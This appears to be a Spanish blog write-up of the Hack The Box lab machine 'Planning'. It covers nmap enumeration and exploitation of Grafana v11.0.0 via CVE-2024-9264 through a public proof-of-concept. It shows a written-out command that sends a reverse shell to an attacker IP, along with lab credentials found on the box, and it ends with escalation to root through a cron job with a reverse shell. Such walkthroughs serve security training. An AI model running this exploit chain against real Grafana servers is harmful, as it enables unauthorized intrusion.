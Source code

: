 ```yaml
---
layout: post
title:  "Planning"
date:   2024-04-05 17:04:54 +0100
tags: ["OS Command Injection", "Brute Force"]
categories: ["Linux", Medium]
image: "https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/c9efb253e7d1d9b407113e11afdaa905.png"
---
```


Enumeración de puertos
```java
sudo nmap -sC -sV -p22,80 -Pn -n --open planning.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-13 18:53 CEST
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
```

Enumeración de directorios

![Nmap scan](/assets/machines/planning.htb/images/Pasted%20image%2020250813185055.webp)

Iniciar sesión Granfana
![](/assets/machines/planning.htb/images/850dc59b-4ae4-44c1-b49d-0df3e8d6542e.webp)

Versión Grafana.

![](/assets/machines/planning.htb/images/e3d1308e-1a69-4d8b-8f80-66450fa0e8db.webp)

La versión de grafana v11.0.0 es vulnerable al CVE-2024-9264.

[z3k0sec/CVE-2024-9264-RCE-Exploit: Grafana RCE exploit (CVE-2024-9264)](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit?tab=readme-ov-file#description)

Establecer una reverse shell.
```bash
$ python poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.115 --reverse-port 9000
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 9000
```

![](/assets/machines/planning.htb/images/62132e13-564c-45d2-a405-2a1a9cbe6537.webp)

Una vez dentro somos ``root`` pero de un contenedor de Docker.

Contraseña encontrada: `RioTecRANDEntANT!` usando el comando `env`.

![](/assets/machines/planning.htb/images/8566591c-8668-4594-a609-62deb56a3afc.webp)

Usamos las credenciales `enzo:RioTecRANDEntANT!` para iniciar sesión por SSH.

El fichero `/var/www/web/enroll.php` contiene las credenciales root para la base de datos `root:EXTRapHY`. Pero no nos van a servir para nada.

![](/assets/machines/planning.htb/images/841301e1-95b8-4d17-b42e-f40aa96a83ba.webp)

Por otra parte, en `/opt/crontabs/crontab.db` encontraremos unas credenciales `P4ssw0rdS0pRi0T3c`.
![](/assets/machines/planning.htb/images/7e213360-6b2d-4b76-a6cc-9036374d8d7d.webp)

Hay un puerto 8000 abierto.
![](/assets/machines/planning.htb/images/0c469827-62b5-403f-8df2-fec2ba6d7849.webp)

Usar Port Forwarding para llegar al puerto 8000 desde la la máquina atacante.
![](/assets/machines/planning.htb/images/4548ff69-7a59-4293-8186-d3fbd273d2bf.webp)

Iniciar sesión con las credenciales `root:P4ssw0rdS0pRi0T3c`.

![](/assets/machines/planning.htb/images/99b1d780-fe1a-4431-ace1-29bda1c9080b.webp)
Crear un job con una reverse shell.
![](/assets/machines/planning.htb/images/594c54d7-fe40-49ce-9a75-49ef56fb98f1.webp)

Clicar en "Run now".

![](/assets/machines/planning.htb/images/107c447b-78bf-49ac-bc7f-f0f2f10adbd7.webp)

Root txt
![](/assets/machines/planning.htb/images/7aa28a64-ab2b-4715-910b-3a20372f8aed.webp)
